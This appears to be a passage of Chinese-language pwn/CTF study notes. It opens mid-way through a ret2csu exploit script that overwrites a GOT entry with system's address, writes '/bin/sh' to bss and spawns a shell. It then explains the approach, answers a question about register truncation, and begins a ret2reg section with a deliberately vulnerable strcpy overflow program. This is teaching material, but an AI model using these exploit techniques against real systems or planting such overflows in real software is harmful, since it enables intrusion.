 ```plain
p.recvuntil('Hello, World\n')
csu(0,1,read_got_addr,16,bss_addr,0,main_got_addr)             
p.send(p64(system_addr)+'/bin/sh\x00')

#第三次发送 payload，执行 system 函数
p.recvuntil('Hello, World\n')
csu(0,1,bss_addr,0,0,bss_addr+8,main_got_addr)             

p.interactive()
```

### 思路

-   利用栈溢出执行 libc\_csu\_gadgets 获取 write 函数地址，并使得程序重新执行 main 函数
-   根据 libcsearcher 获取对应 libc 版本以及 execve 函数地址
-   再次利用栈溢出执行 libc\_csu\_gadgets 向 bss 段写入 execve 地址以及 '/bin/sh’地址，并使得程序重新执行 main 函数。
-   再次利用栈溢出执行 libc\_csu\_gadgets 执行 execve('/bin/sh') 获取 shell。

### 疑问

-   上述思路中，能不能省去第三步，直接通过版本找到字符串/bin/sh 的地址，然后利用栈溢出传入地址直接执行？
    
    答：不可以，因为这条指令的原因 mov edi, r15d，它只能将 r15 低 32 位赋给 edi，而 bss 段地址本身比较低，高 32 位为 0 不影响赋值后 rdi 的结果
    
-   如果 system 函数不行可以尝试使用 execve
    

## ret2reg

### 原理（思路）

1.  查看溢出函返回时哪个寄存值指向溢出缓冲区空间
2.  然后反编译二进制，查找 call reg 或者 jmp reg 指令，将 EIP 设置为该指令地址
3.  reg 所指向的空间上注入 Shellcode (需要确保该空间是可以执行的，但通常都是栈上的)

### 利用

源程序：

```plain
#include <stdio.h>
#include <string.h>
void evilfunction(char *input) {
        char buffer[512];
        strcpy(buffer, input);
}
int main(int argc, char **argv) {
        evilfunction(argv[1]);
        return 0;
}
```

编译：
